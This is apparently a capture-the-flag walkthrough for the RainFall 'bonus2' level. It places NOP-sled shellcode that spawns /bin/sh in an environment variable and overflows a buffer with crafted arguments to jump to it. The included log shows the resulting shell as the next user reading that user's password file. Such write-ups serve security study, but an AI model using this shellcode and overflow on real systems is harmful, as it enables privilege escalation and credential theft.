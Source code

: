 # Bonus 2

We're again using this [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) that we insert in the env after a nope slide, we'll increment the pointer to it a bit to make our exploit more resilient, refer to `bonus0` for more.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

LANG=fi for bigger string | "a" 40 times to bypass '\0' | "b" 18 times to overflow + address of shellcode in env

```shell
bonus2@RainFall:~$ LANG=fi ./bonus2 $(python -c 'print "a"*40') $(python -c 'print "b"*18 + "\x6c\xfd\xff\xbfa"')
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbla
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
```
